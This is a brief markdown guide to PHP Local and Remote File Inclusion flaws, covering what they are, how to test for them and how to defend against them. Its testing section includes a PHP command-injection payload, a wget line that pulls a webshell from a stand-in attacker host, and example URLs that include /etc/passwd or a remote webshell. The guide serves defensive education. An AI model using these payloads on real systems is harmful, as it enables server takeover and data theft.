 ```yaml
---
title: LFI, RFI
category: ""
order: 0
---
```



## 1. Vulnerability Description
```
LFI : Local File Inclusion
RFI : Remote File Inclusion
```
* The vulnerability occurs when using a function that calls up documents such as include(), include_once(), and request().
* If the above functions do not have proper verification procedures for file names and paths, an attacker can insert certain files in Local&Remote into vulnerable pages and execute code.
If a vulnerability exists, it can be used by a hacker to execute the intended command.

## 2. How to check vulnerability
#### [LFI]
* For Windows, Insert the \<?php passthru('command');?\> code into the user-Agent on the header through a proxy tool and Send it.
* For Unix,  Upload a webshell remotely using commands such as  \<?system('wget http://attacker.com/webshell/test.txt -O test2.php');?\>

#### [RFI]
* Request by inserting local file path or external remote file into parameter as shown below
  * http://test.com/includFile.php?fileName=C:\test.txt
  * http://test.com/includFile.php?fileName=/etc/passwd : Include local files
  * http://test.com/includFile.php?fileName=http://attacker.com/webshell.txt : Include files from remote locations

## 3. Vulnerability Countermeasure
* If the values entered by the user are accurately predictable, verify that they fall within the correct range:
  * If a path or file is specified for an include(), check that the specified value is correct.
  * If an include() path is changed, check that the request value is intended.
    
* Translates some of the characters in question, such as the following, if the values entered by the user are not predictable:
  * Limit usage by changing protocols, such as php wrapper, to filter strings such as "file:"//" that allow specific commands.
  * Add logic to block characters that are not included in the file name in normal cases such as "..", "./", etc.
     * /....// is sometimes converted to /../ after a regular expression
        * "/....////....///....///....///....///".replace(/\.\\\//g)" → "/../..///../../../../../"
        * Do not enter the absolute path itself or verify /../ once again to make an error if the character is included.
        

* If you do not need the Remote File include() function, disable it as follows:
  * Php disables external include() functions such as "allow_url_include = Off, allow_url_open=Off"

## 4. Etc
* Abuse of the include() function
  * ex) include ($Param);
  * include() is used to include files, such as standard headers and menus, to be included on all pages.
  * Remote files can be recalled like local files due to their function and setup errors
